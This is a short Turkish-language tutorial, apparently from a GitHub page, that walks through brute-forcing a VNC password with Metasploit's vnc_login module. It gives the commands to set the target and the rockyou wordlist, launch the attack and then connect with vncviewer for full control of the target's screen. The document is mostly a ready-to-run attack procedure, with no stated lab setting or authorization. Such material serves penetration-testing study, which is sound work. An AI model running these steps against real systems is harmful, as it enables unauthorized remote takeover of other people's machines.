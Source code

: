 Metasploit Framework, VNC servisinde parola denemek için bir brute force modülü barındırır.  

---

## 🔍 Modül Arama
```bash
search vnc
```
- Birçok VNC modülü listelenir.  
- Bizim için uygun olan:  
```bash
use auxiliary/scanner/vnc/vnc_login
```

---

## ⚙️ Modül Konfigürasyonu
Mevcut seçenekleri görmek için:  
```bash
show options
```

**Önemli parametreler:**
- `RHOSTS` → Hedef IP  
- `PASSWORD` → Belirli parola  
- `PASS_FILE` → Parola wordlisti  

**Örnek ayarlar:**
```bash
set RHOSTS <hedef ip>
set PASS_FILE /usr/share/wordlists/rockyou.txt
```

---

## 🚀 Saldırıyı Başlatmak
```bash
exploit
```

- Araç, wordlist’teki parolaları tek tek dener.  
- Doğru parola bulunduğunda ekrana yansır.  

---

## 📂 Hedef Makineye Bağlanmak
Doğru parolayı elde ettikten sonra terminalden:  
```bash
vncviewer <hedef ip>
```
- Bağlantı esnasında parola istenir.  
- Doğru parola girildiğinde **hedef makinenin ekranına erişim sağlanır**.  

✅ Böylece VNC üzerinden tam kontrol elde edilir.  
